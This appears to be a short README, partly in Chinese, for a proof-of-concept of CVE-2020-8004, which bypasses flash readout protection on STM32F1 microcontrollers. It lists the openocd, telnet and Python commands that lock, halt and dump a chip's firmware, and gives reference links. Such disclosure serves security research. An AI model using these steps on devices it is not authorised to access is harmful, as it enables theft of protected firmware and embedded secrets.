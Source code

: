 ## CVE-2020-8004
## 测试
`$cd openocd-toolbox/scripts/linux/stm32f1x/`  
`$./lock.sh`  
`$./attach.sh`  
`($telnet localhost 4444)`  
`($reset halt)`  
`($mdw 0x08000000)`  
`$cd stm32f1-firmware-extractor`  
`$python3 main.py 0x08000000 512`

![test](https://github.com/wuxx/CVE-2020-8004/blob/master/doc/test.jpg)
![screenshot](https://github.com/wuxx/CVE-2020-8004/blob/master/doc/screenshot.png)
## 参考
- https://blog.zapb.de/stm32f1-exceptional-failure/
- https://gitlab.zapb.de/zapb/stm32f1-firmware-extractor/
- https://www.muselab-tech.com/cve-2020-8004-lou-dong-yuan-li-fen-xi/
- 《Cortex-M3权威指南》

